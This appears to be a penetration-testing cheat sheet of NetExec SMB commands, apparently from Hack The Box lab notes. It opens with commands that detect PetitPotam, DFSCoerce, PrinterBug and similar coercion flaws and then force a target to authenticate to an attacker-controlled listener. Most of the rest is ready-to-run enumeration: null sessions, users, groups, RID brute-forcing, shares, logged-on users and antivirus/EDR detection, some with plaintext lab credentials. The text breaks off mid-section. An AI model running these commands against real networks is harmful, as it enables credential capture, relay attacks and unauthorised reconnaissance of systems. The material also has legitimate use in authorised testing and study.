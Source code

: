 **Scan for Coerce Vulnerabilities**

- PetitPotam
- DFSCoerce
- PrinterBug
- MSEven
- ShadowCoerce

```bash
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```bash
#By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

```bash
#Enumerate host
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24

#Enumerate null session (Try guest logon by using random username but password empty)
Intrusionz3r0X@htb[/htb]$ nxc smb 10.10.10.161 -u '' -p ''
Intrusionz3r0X@htb[/htb]$ nxc smb 10.10.10.161 -u '' -p '' --shares
Intrusionz3r0X@htb[/htb]$ nxc smb 10.10.10.161 -u '' -p '' --pass-pol
Intrusionz3r0X@htb[/htb]$ nxc smb 10.10.10.161 -u '' -p '' --users
Intrusionz3r0X@htb[/htb]$ nxc smb 10.10.10.161 -u '' -p '' --groups

#Active sessions
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sessions

#Shares and access
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares --filter-shares READ WRITE

# Enumerate users
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.5.5 -u forend -p Klmcargo2 --users
Intrusionz3r0X@htb[/htb]$  nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
# Enumerate Groups
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.5.5 -u forend -p Klmcargo2 --groups
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-group
# Enumerate the logged on users
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
#Enumerate the shared folders
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.5.5 -u forend -p Klmcargo2 --shares

# Enumerate disk
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --disks

#Enuemrate Anti-viruts & EDR
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u user -p pass -M enum_av

#Send a file to the remote target
```